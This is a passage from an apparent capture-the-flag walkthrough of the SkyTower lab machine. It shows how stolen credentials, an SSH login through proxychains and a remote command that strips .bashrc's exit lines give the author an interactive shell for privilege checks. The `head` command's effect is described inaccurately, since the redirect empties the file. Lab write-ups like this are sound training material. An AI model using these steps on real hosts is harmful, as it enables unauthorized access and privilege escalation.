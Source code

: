 ## Getting Interactive Shell & Rooting
Now that I had a few different sets of credentials at my disposal, I wanted to upgrade to an interactive shell and check out what sudo privileges each user had, to see if there was any low hanging fruit.

Usually, I'd do this using Python by running `python -c 'import pty; pty.spawn("/bin/bash")'`, but Python wasn't installed on the host; which meant I had to figure out what was killing the SSH connections.

I started [and finished] by looking in `.bashrc` and found the last three lines to read:

```
echo
echo  "Funds have been withdrawn"
exit
```

As I couldn't use `nano` to edit the file, I used `head` to remove the last three lines and output it back into `.bashrc`:

```
head -n -3 .bashrc > .bashrc
```

After doing this, I tried to login again, and successfully got an interactive shell as `john`:

```shell_session
root@kali:~# proxychains ssh john@10.2.0.104
ProxyChains-3.1 (http://proxychains.sf.net)
|S-chain|-<>-10.2.0.104:3128-<><>-10.2.0.104:22-<><>-OK
john@10.2.0.104's password:
Linux SkyTower 3.2.0-4-amd64 #1 SMP Debian 3.2.54-2 x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sun Aug 20 17:51:47 2017 from 10.2.0.104
john@SkyTower:~$ sudo -l
[sudo] password for john:
Sorry, user john may not run sudo on SkyTower.
john@SkyTower:~$
```

Now that I had the interactive shell, I ran `sudo -l` to view John's privileges, but the account was unable to execute any commands using sudo, so I moved on to the `sara` account.

This account also had the same issue with being instantly disconnected, so I executed the same command as previously used on the `john` account (`proxychains ssh sara@10.2.0.104 "head -n -3 .bashrc > .bashrc"`) and then connected with an interactive shell.

Once in, I found that the `sara` account had the ability to run `cat /accounts/*` and `ls /accounts/*`:

